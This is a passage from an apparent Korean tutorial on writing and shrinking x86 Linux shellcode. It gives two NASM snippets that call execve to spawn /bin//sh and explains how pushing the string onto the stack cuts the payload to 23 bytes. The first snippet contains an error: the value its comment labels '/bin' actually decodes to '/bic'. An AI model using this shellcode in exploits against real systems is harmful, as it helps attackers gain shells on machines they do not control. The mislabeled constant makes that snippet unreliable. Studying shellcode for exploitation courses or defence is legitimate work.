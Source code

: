 <br>

이 코드를 어셈블하면 36바이트의 셸코드가 생성된다. 36바이트에서 더 줄일 수 있는 방법이 있다.

<br>

ESP 레지스터는 스택의 맨 위를 가리키는 스택 포인터다.    

스택에 값이 푸쉬될 때 ESP는 메모리상에서 위로 옮겨지고 스택 맨 위에 그 값이 위치한다.   

스택에서 값을 팝할 때 ESP는 메모리에서 아래로 옮겨진다.  

<br>

```nasm
; execve(const char *filename, char *const argv[], char *const envp[])
xor eax, eax
push eax          ; 널 바이트 삽입
push 0x68732f2f   ; "//sh"를 스택에 푸쉬
push 0x6369622f   ; "/bin"를 스택에 푸쉬
mov ebx, esp      ; esp에서 "/bin//sh"의 주소를 가져와 ebx에 쓴다
push eax          ; 32비트 널 바이트 삽입
mov edx, esp      ; envp
push ebx          ; 문자열 주소 삽입
mov ecx, esp      ; argv
mov al, 11 
int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

<br>

```/bin/sh```는 7바이트이므로 8바이트를 맞춰주기 위해 ```/bin//sh```로 한 것.

jmp call 방법과 비교했을 때 25바이트 밖에 안된다. 2바이트 더 줄일 수 있다.

<br>

```nasm
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 11
int 0x80
```

<br>

어셈블하면 23바이트 셸코드가 생성된다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## 셸코드 크기 줄이기
<hr style="border-top: 1px solid;"><br>
